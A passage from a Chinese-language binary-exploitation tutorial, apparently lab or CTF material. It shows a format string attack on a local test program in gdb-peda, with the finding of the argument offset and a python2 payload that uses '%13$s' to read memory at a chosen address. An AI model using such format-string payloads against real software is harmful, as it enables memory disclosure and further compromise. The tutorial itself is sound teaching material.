 下面是程序运行的结果：

```text
gdb-peda$ c
Continuing.
AAAA.0x1.0x88888888.0xffffffff.0xffffd57a.0xffffd584.0x56555220.0x565555d7.0xf7ffda54.0x1.0x424135d0.0x4443.(nil).0x41414141.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e
```

`0x41414141` 是输出的第 13 个字符，所以我们使用 `%13$s` 即可读出 `0x41414141` 处的内容，当然，这里可能是一个不合法的地址。下面我们把 `0x41414141` 换成我们需要的合法的地址，比如字符串 `ABCD` 的地址 `0xffffd57a`：

```text
$ python2 -c 'print("\x7a\xd5\xff\xff"+".%13$s")' > text
$ gdb -q a.out
Reading symbols from a.out...(no debugging symbols found)...done.
gdb-peda$ b printf
Breakpoint 1 at 0x8048350
gdb-peda$ r < text
[----------------------------------registers-----------------------------------]
EAX: 0xffffd584 --> 0xffffd57a ("ABCD")
EBX: 0x804a000 --> 0x8049f14 --> 0x1
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd618 --> 0x0
ESP: 0xffffd54c --> 0x8048520 (<main+138>:      add    esp,0x20)
EIP: 0xf7e27c20 (<printf>:      call   0xf7f06d17 <__x86.get_pc_thunk.ax>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e27c1b <fprintf+27>:     ret
   0xf7e27c1c:  xchg   ax,ax
   0xf7e27c1e:  xchg   ax,ax
=> 0xf7e27c20 <printf>: call   0xf7f06d17 <__x86.get_pc_thunk.ax>
   0xf7e27c25 <printf+5>:       add    eax,0x16f243
   0xf7e27c2a <printf+10>:      sub    esp,0xc
   0xf7e27c2d <printf+13>:      mov    eax,DWORD PTR [eax+0x124]
   0xf7e27c33 <printf+19>:      lea    edx,[esp+0x14]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xffffd54c --> 0x8048520 (<main+138>:     add    esp,0x20)
0004| 0xffffd550 --> 0xffffd584 --> 0xffffd57a ("ABCD")
0008| 0xffffd554 --> 0x1
0012| 0xffffd558 --> 0x88888888
0016| 0xffffd55c --> 0xffffffff
0020| 0xffffd560 --> 0xffffd57a ("ABCD")
0024| 0xffffd564 --> 0xffffd584 --> 0xffffd57a ("ABCD")
0028| 0xffffd568 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0xf7e27c20 in printf () from /usr/lib32/libc.so.6
gdb-peda$ x/20w $esp
0xffffd54c:     0x08048520      0xffffd584      0x00000001      0x88888888
0xffffd55c:     0xffffffff      0xffffd57a      0xffffd584      0x080481fc
0xffffd56c:     0x080484b0      0xf7ffda54      0x00000001      0x424135d0
0xffffd57c:     0x00004443      0x00000000      0xffffd57a      0x3331252e
0xffffd58c:     0x00007324      0xffffd5ca      0x00000001      0x000000c2
gdb-peda$ x/s 0xffffd57a
0xffffd57a:     "ABCD"
gdb-peda$ c
Continuing.
z���.ABCD
```